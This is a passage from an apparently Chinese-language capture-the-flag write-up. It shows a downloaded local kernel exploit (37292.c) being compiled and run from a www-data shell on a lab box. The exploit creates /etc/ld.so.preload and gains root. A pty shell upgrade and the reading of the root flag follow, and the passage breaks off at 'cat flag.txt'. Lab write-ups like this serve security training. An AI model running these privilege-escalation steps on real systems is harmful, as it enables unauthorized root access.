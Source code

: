     ```

-   编译，执行！

-   ```shell
    www-data@simple:/tmp$ gcc 37292.c -o 37292
    gcc 37292.c -o 37292
    www-data@simple:/tmp$ ./37292
    ./37292
    spawning threads
    mount #1
    mount #2
    child threads done
    /etc/ld.so.preload created
    creating shared library
    # whoami
    whoami
    root
    ```

-   成功获得root权限读取flag，提权成功！！！

-   ```shell
    # python -c 'import pty;pty.spawn("/bin/bash")';
    python -c 'import pty;pty.spawn("/bin/bash")';
    root@simple:/tmp# whoami
    whoami
    root
    root@simple:/tmp# ip a
    ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
           valid_lft forever preferred_lft forever
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
        link/ether 00:0c:29:76:48:0c brd ff:ff:ff:ff:ff:ff
        inet 192.168.229.129/24 brd 192.168.229.255 scope global eth0
           valid_lft forever preferred_lft forever
        inet6 fe80::20c:29ff:fe76:480c/64 scope link 
           valid_lft forever preferred_lft forever
    3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
        link/ether 00:0c:29:76:48:16 brd ff:ff:ff:ff:ff:ff
        inet 192.168.2.146/24 brd 192.168.2.255 scope global eth1
           valid_lft forever preferred_lft forever
        inet6 fe80::20c:29ff:fe76:4816/64 scope link 
           valid_lft forever preferred_lft forever
    root@simple:/tmp# cd /root
    cd /root
    root@simple:/root# ls -lhai
    ls -lhai
    total 20K
    261842 drwx------  2 root root 4.0K Sep 21  2015 .
         2 drwxr-xr-x 21 root root 4.0K Sep  9  2015 ..
    261843 -rw-r--r--  1 root root 3.1K Feb 19  2014 .bashrc
    261844 -rw-r--r--  1 root root  140 Feb 19  2014 .profile
    261852 -rw-------  1 root root   52 Sep 21  2015 flag.txt
    root@simple:/root# cat flag.txt
    cat flag.txt